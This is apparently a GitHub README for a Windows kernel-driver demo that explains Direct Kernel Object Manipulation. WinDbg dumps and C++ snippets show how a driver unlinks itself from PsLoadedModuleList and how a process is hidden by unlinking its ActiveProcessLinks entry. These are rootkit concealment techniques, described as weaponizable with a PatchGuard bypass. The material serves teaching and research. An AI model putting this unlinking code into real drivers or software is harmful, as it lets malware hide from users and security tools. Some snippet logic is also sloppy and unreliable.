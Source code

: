 # Windows DKOM Demo

This is an implementation of a simple driver which modifies kernel data structures to remove itself from the `PsLoadedModuleList` structure. Disclaimer: PG protects against this. Weaponizanble by chaining with a PG bypass.

---

`PsLoadedModuleList`  is a global kernel object of type `_KLDR_DATA_TABLE_ENTRY`. It is the list head of a circular linked-list containing the loaded modules on the system. Example:

```
2: kd> ?PsLoadedModuleList
Evaluate expression: -8773737086640 = fffff805`34848150
2: kd> dt poi(fffff805`34848150) _KLDR_DATA_TABLE_ENTRY
DKOM_Demo!_KLDR_DATA_TABLE_ENTRY
   +0x000 InLoadOrderLinks : _LIST_ENTRY [ 0xffffd78d`4ee49340 - 0xfffff805`34848150 ]
   +0x010 ExceptionTable   : 0xfffff805`34911000 Void
   +0x018 ExceptionTableSize : 0x5e38c
   +0x020 GpValue          : (null) 
   +0x028 NonPagedDebugInfo : (null) 
   +0x030 DllBase          : 0xfffff805`34400000 Void
   +0x038 EntryPoint       : 0xfffff805`34997010 Void
   +0x040 SizeOfImage      : 0xab7000
   +0x048 FullDllName      : _UNICODE_STRING "\SystemRoot\system32\ntoskrnl.exe"
   +0x058 BaseDllName      : _UNICODE_STRING "ntoskrnl.exe"
   +0x068 Flags            : 0x8804000
   +0x06c LoadCount        : 0x8f
   +0x06e __Unused5        : 0x10
   +0x070 SectionPointer   : (null) 
   +0x078 CheckSum         : 0x979256
   +0x080 LoadedImports    : (null) 
   +0x088 PatchInformation : 0x00000000`00000001 Void
```

We can see that at information about the entry is offset to the actual `LIST_ENTRY` structure, which holds the addresses of the next and previous `_KLDR_DATA_TABLE_ENTRY` structures. If you're not familiar, `LIST_ENTRY` looks like this:

```
2: kd> dt _List_entry
ntdll!_LIST_ENTRY
   +0x000 Flink            : Ptr64 _LIST_ENTRY
   +0x008 Blink            : Ptr64 _LIST_ENTRY
```

As it turns out, each driver has access to it's `KLDR_DATA_TABLE_ENTRY` structure by its `DriverObject->DriverSection` member at offset `0x28`. Just for completeness' sake, the `DRIVER_OBJECT` structure looks like this:

```
2: kd> dt PDRIVER_OBJECT
DKOM_Demo!PDRIVER_OBJECT
Ptr64    +0x000 Type             : Int2B
   +0x002 Size             : Int2B
   +0x008 DeviceObject     : Ptr64 _DEVICE_OBJECT
   +0x010 Flags            : Uint4B
   +0x018 DriverStart      : Ptr64 Void
   +0x020 DriverSize       : Uint4B
   +0x028 DriverSection    : Ptr64 Void    //KLDR_DATA_TABLE_ENTRY            
   +0x030 DriverExtension  : Ptr64 _DRIVER_EXTENSION
   +0x038 DriverName       : _UNICODE_STRING
   +0x048 HardwareDatabase : Ptr64 _UNICODE_STRING
   +0x050 FastIoDispatch   : Ptr64 _FAST_IO_DISPATCH
   +0x058 DriverInit       : Ptr64     long 
   +0x060 DriverStartIo    : Ptr64     void 
   +0x068 DriverUnload     : Ptr64     void 
   +0x070 MajorFunction    : [28] Ptr64     long 
```

As such, one can simply access and traverse `PsLoadedModuleList` using this member of `DRIVER_OBJECT`. Additionally, directly hiding a module from the list is as simple as relinking the `LIST_ENTRY` structures surrounding the driver's:

```c++
PLIST_ENTRY PrevModule = ThisModule->Blink;
PLIST_ENTRY NextModule = ThisModule->Flink;

// Replace PrevModule Flink with NextModule's address;
PrevModule->Flink = NextModule;
// Replace NextModule Blink with PrevModule's address
NextModule->Blink = PrevModule;

// point target process to itself
ThisModule->Flink = ThisModule;
ThisModule->Blink = ThisModule;
```

And since you have access to the driver `KLDR_DATA_TABLE_ENTRY`, you can check your work:

```c++
NTSTATUS FindKernelModule(_In_ PDRIVER_OBJECT DriverObject, _In_ PUNICODE_STRING DriverName) {
	// Logic can be similarly used for finding the PsLoadedModuleList head. ntoskrnl.exe is always the head
	PKLDR_DATA_TABLE_ENTRY pThisModule = (PKLDR_DATA_TABLE_ENTRY)DriverObject->DriverSection;
	PLIST_ENTRY KModEntry = { nullptr };
	PLIST_ENTRY FirstEntry = pThisModule->InLoadOrderLinks.Flink;

	// https://m0uk4.gitbook.io/notebooks/mouka/windowsinternal/find-kernel-module-address-todo
	// Loop over the circular linked-list
	for (PLIST_ENTRY pListEntry = pThisModule->InLoadOrderLinks.Flink;
		(pListEntry != &pThisModule->InLoadOrderLinks) &
		(pThisModule->InLoadOrderLinks.Flink != FirstEntry);
		pListEntry = pListEntry->Flink)
	{
		// Search for the driver you're trying to hide
		PKLDR_DATA_TABLE_ENTRY pEntry = CONTAINING_RECORD(
			pListEntry, KLDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

		if (RtlEqualUnicodeString(DriverName, &pEntry->BaseDllName, true)) {
			// oops, you found it. 
			KModEntry = pListEntry;
			return STATUS_SUCCESS;
		}
	}

    // module was unlinked successfully
	return STATUS_UNSUCCESSFUL;
}
```

This same type of unlinking behavior can be used to hide a process. In kernel mode, a process can be looked up by its ID using `PsLookupProcessByProcessId`:

```c++
// turn the PID into an EPROCESS pointer
PEPROCESS Process;
status = PsLookupProcessByProcessId((HANDLE)data->pid, &Process);
if (!NT_SUCCESS(status))
	break;
```

Where PEPROCESS represent a pointer to an EPROCESS structure like this:
```
2: kd> dt _EPROCESS
ntdll!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x2e0 ProcessLock      : _EX_PUSH_LOCK
   +0x2e8 UniqueProcessId  : Ptr64 Void
   +0x2f0 ActiveProcessLinks : _LIST_ENTRY
   +0x300 RundownProtect   : _EX_RUNDOWN_REF
   +0x308 Flags2           : Uint4B
... (truncated
```

With a pointer to the target process's EPROCESS structure in hand, it can be scanned for the `ActiveProcessLinks` member. Once this member is found, hiding the process is the exact same for hiding a driver process:

```c++
// get the ActiveProcesLinks address
auto CurrentListEntry = (PLIST_ENTRY)((PUCHAR)Process + offset);

auto PrevListEntry = CurrentListEntry->Blink;
auto NextListEntry = CurrentListEntry->Flink;

// unlink the target process
PrevListEntry->Flink = NextListEntry;
NextListEntry->Blink = PrevListEntry;

// point target process to itself
CurrentListEntry->Flink = CurrentListEntry;
CurrentListEntry->Blink = CurrentListEntry;
```
On Windows 10 1901 build 18363, the `ActiveProcessLinks` member is located at offset `0x2f0`. This offset changes between builds.

The full source for an example driver can be found [here](https://github.com/joshfinley/DKOM_Demo).

Of course, none of this is anything new: 

## References
- [blackbone implementation to find PsLoadedModuleList](https://github.com/DarthTon/Blackbone/blob/master/src/BlackBoneDrv/Loader.c)
- [all sorts of ways of finding module addresses](https://m0uk4.gitbook.io/notebooks/mouka/windowsinternal/find-kernel-module-address-todo)
- [another implementation of the same driver hiding functionality](https://vxug.fakedoma.in/papers/Hiding%20loaded%20driver%20with%20DKOM%20.txt)
- [the reference implementation for the process hiding functionality](https://vxug.fakedoma.in/papers/Hide%20process%20with%20DKOM%20without%20hardcoded%20offsets.txt)
